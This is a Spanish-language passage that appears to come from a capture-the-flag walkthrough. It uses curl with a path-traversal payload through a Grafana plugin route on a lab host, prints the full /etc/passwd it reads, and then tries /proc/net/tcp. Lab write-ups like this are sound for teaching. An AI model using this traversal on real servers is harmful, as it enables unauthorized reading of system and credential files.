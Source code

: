 Esta vulnerabilidad es gracias a los **Plugins** que existen es por eso que tiene en el código definido una lista de **Plugins** para probar cual es valido entonces vamos a usar la herramienta **curl**

Si probamos con el primer **plugin** vemos que funciona

```bash
❯ curl -s -X GET 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd' --path-as-is
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```

Bueno entonces como tenemos la capacidad de ver archivos de la maquina vamos a enumerar el sistema en busca de archivos interesantes

No podemos ver este archivo

```bash
❯ curl -s -X GET 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../proc/net/tcp' --path-as-is
seeker can't seek

```
